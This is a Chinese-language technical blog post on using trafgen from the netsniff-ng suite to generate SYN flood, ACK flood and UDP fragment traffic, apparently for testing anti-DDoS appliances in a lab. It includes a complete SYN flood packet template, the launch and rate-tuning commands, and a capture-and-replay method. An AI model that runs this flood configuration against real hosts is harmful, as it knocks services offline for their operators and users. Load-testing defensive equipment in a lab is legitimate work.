 ```yaml
---
title: 高性能流量生成工具trafgen(DDoS模拟)
layout: post
author: WenfengShi
category: 技术
tags: [network, security, tools]
---
```

> 因项目需要，自己需要对主流的几家抗DDoS设备做测评， 当然了最专业的是使用Spirent TestCenter，但限于其他因素，最终决定搭建一个软件环境来进行相关的DDoS测试。本文主要讲解的如何trafgen工具来发起DDoS工具(syn flood, ack flood等等)

> synflood攻击、ackflood攻击、UDP fragment攻击的详细配置文件见 [github ddos-dos-tools][1]


## 工具选择
1. 开源的流量生成工具很多，可用于模拟DoS攻击的工具也不在少数，如hping、scapy（python库）等等，但均存在着不足，如性能不够，不能模拟DDoS攻击（攻击流IP和PORT不能动态变化）
2. 通过详细的对比测试（同hping、scapy、LOIC等对比测试，具体数据不宜公开），最后统一选择了**netsniff-ng**套件中的**trafgen**攻击，其在测试环境中可达到**24万pps**的SYNFLOOD攻击，是一款高速、多线程网络数据包生成工具
3. trafgen 工具能够动态生成攻击IP和端口号，能够通过配置文件动态修改攻击包的内容

## 简单使用
### 1. 安装
trafgen属于netsniff-ng套件，是一款linux下的工具，安装很方便，通过系统的在线安装工具即可完成安装，如centos下`yum install netsniff-ng`即可
### 2. 使用（SYN Flood攻击）
1. 工具的比较简单，主要是配置文件的编写，假设已经写好了一个synflood配置文件
- 键入命令`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose`即可发起攻击
- 进一步的还可通过`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose --gap 1000` （以毫秒为单位）来调节速度
- 进一步的还可通过`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose --kernel-pull 20` (默认10us）来调节速度
- 详细的可以`man trafgen`

2. 配置文件解读（以synflood.trafgen文件为例）
- *synflood.trafgen* 模版，trafgen就是通过该文件来生成特定的数据包的！看配置文件的注释基本能清除如何修改

```
/* TCP SYN attack ( 64byte )
 * Command example:
 *  trafgen --cpp --dev em2 --conf synflood.trafgen --verbose
 * Note: dynamic elements "drnd()" make trafgen slower
 */

#define ETH_P_IP	0x0800

#define SYN		(1 << 1)
#define ACK		(1 << 4)
#define ECN		(1 << 6)

{
  /* --- Ethernet Header --- */
  /* NEED ADJUST */
  // 0x00, 0x12, 0xc0, 0x02, 0xac, 0x56,  # MAC Destination
  // 0x00, 0x12, 0xc0, drnd(3),  # MAC Source
  0xf4, 0xe9, 0xd4, 0x8d, 0x04, 0x82, # MAC Destination
  0xf4, 0xe9, 0xd4, 0x8c, 0xe2, 0xa2, # MAC Source
  
  const16(ETH_P_IP),
  /* IPv4 Version, IHL, TOS */
  0b01000101, 0,
  /* IPv4 Total Len */
  const16(46),
  /* IPv4 Ident */
  drnd(2),
  //const16(2),

  /* IPv4 Flags, Frag Off */
  0b01000000, 0,
  /* IPv4 TTL */
  64,
  /* Proto TCP */
  0x06,
  /* IPv4 Checksum (IP header from, to) */
  csumip(14, 33),

  /* NEED ADJUST */
  // 10, 10, 88, drnd(1), # Source IP
  10, 10, 88, 173,  # Source IP
  10, 10, 88, 172, # Dest IP

  /* TCP Source Port */
  drnd(2),
  /* TCP Dest Port */
  const16(80),
  /* TCP Sequence Number */
  drnd(4),
  /* TCP Ackn. Number */
  const32(0), /* NOTICE ACK==zero with SYN packets */

  /* TCP Header length + Flags */
  //const16((0x5 << 12) | SYN | ECN)	/* TCP SYN+ECN Flag */
  //const16((0x5 << 12) | SYN | ACK)	/* TCP SYN+ACK Flag */
  const16((0x5 << 12) | SYN)		/* TCP SYN Flag */
  //const16((0x5 << 12) | ACK)		/* TCP ACK Flag */

  /* Window Size */
  const16(16),
  /* TCP Checksum (offset IP, offset TCP) */
  csumtcp(14, 34),
  const16(0), /*PAD*/
  
  /* Data */
  "SYNswf"
}
```

- 配置文件可通过`drnd()`函数来实现对应内容的动态生成，如IP、MAC地址等，但是会影响性能

![image_1b6bf8ooa3im1ioc1kc7aeu1qo89.png-6kB][2]

- 修改MAC地址（攻击/被攻击MAC地址）

![image_1b6bfeukr5m628h14ciupq1tnnm.png-11.8kB][3]

- 修改IP地址和攻击协议及端口号，`const16()`将对应的十进制数转换成一个16位的二进制数

![image_1b6bftaek14a4il1fp5l3dr5213.png-15kB][4]

- 修改位SYN标志(根据情况也可修改为其他的)

![image_1b6bfv9751ojs1g6klulc4jaak1g.png-11.6kB][5]

### 3. ACKFlood 攻击
- 配置文件见 [github ddos-dos-tools][6]

### 4. UDP fragment 攻击
- 配置文件见 [github ddos-dos-tools][7]

### 5. 退出命令
统一退出命令`pgrep trafgen | xargs kill -s 9`


## 其他
1. 在trafgen性能仍打不到要求的情况下，可通过netsniff-ng攻击进行流量回放，如下
- 先捕获synfloog攻击数据包
`netsniff-ng --in ens33 --out synflood.pcap --silent --verbose --filter 'ether src 00:50:56:ab:a5:3f'`
`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose`
- 再重放synflood攻击数据包
`netsniff-ng --in synflood.pcap --out ens33 --silent --prio-high --verbose`
2. 在用trafgen进行实时流量生成或者netsniff-ng重放时，还可通过工具`tc`进行流量控制，具体请见["linux流量控制工具tc](http://)一文，简单举例如下
![image_1b6bgp1mntnf15a61bppjvs1f7a1t.png-15.8kB][8]



  [1]: https://github.com/wenfengshi/ddos-dos-tools
  [2]: http://static.zybuluo.com/wuzhimang/mhfkf1drooxo2ua6ty5cceed/image_1b6bf8ooa3im1ioc1kc7aeu1qo89.png
  [3]: http://static.zybuluo.com/wuzhimang/c9tv8lr5a7elsipj8zwjl6tl/image_1b6bfeukr5m628h14ciupq1tnnm.png
  [4]: http://static.zybuluo.com/wuzhimang/hujkjhes3d7n42iptoaovv2o/image_1b6bftaek14a4il1fp5l3dr5213.png
  [5]: http://static.zybuluo.com/wuzhimang/28r16zkja4memce251azvmx4/image_1b6bfv9751ojs1g6klulc4jaak1g.png
  [6]: https://github.com/wenfengshi/ddos-dos-tools
  [7]: https://github.com/wenfengshi/ddos-dos-tools
  [8]: http://static.zybuluo.com/wuzhimang/b16skp1a811ullz8hfuzq0h0/image_1b6bgp1mntnf15a61bppjvs1f7a1t.png
